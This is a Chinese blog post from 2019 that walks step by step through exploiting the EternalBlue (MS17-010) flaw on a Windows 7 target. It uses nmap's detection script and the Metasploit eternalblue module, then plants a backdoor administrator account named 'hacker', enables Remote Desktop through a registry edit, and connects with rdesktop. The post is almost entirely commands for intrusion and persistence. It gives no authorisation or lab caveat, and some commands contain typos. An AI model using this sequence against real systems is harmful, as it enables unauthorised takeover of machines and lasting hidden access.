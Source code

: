 ```yaml
---
layout:     post
title:      永恒之蓝漏洞拿win7最高权限
subtitle:   新手上路，内网win7永恒之蓝漏洞利用
date:       2019-3-18
author:     陈建武
header-img: img/post-bg-re-vs-ng2.jpg
catalog: true
tags:
    - Blog
---
```


> 新手上路，大佬勿喷。

# 进入正题

## 1.进入nmap存放脚本的目录。

### 命令：cd /usr/share/nmap/scripts

updatedb

locate ms17-010

![](https://s2.ax1x.com/2019/03/18/An1eu8.png)

## 上图就是我们要利用的脚本

## 2.用脚本扫描你要攻击的目标ip

### 命令：nmap --scriput smb-vuln-ms17-010.nse ‘这里写目标ip’

![](https://s2.ax1x.com/2019/03/18/An1Vjf.png)

## 3.再开启一个终端运行msf工具。

### 命令：mafconsole

![](https://s2.ax1x.com/2019/03/18/An1k9I.png)

## 4.查询这个漏洞利用模块。

### 命令：search ms17-010

![](https://s2.ax1x.com/2019/03/18/An1EgP.png)

## 5.使用这个模块。

### 命令：use exploit/windows/smb/ms17_010_eternalblue

## 6.查看需要设置的参数。

### 命令：show options

![](https://s2.ax1x.com/2019/03/18/An1rgx.png)

## 7.设置远程目标的ip

### 命令：set rhost ‘这里写远程目标的ip’

## 8.再次查看参数设置。

### 命令：show options

![](https://s2.ax1x.com/2019/03/18/An1gbD.png)

## 9.启动。

### 命令：run

![](https://s2.ax1x.com/2019/03/18/An1oxP.png)

## 10.‘留后门’添加用户。

### 命令：net user hacker 123.com /add

## 查看用户是否添加成功。

### 命令：net user

![](https://s2.ax1x.com/2019/03/18/An1xGn.png)

## 11.给我们添加的用户提权。

### 命令:net localgroup administrators hacker /add

## 查看提权是否成功。

### 命令：net user hacker

![](net localgroup administrators hacker /add)

## 12.开起目标机器3389远程桌面服务端口。

### 命令：REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 0 /f

## 13.打开成功后再开启一个终端，链接远程桌面，

### 命令：rdesktop ‘你目标机的ip’

![](https://s2.ax1x.com/2019/03/19/An3dL8.png)

## 14.完成。

![](https://s2.ax1x.com/2019/03/19/An3bS1.png)






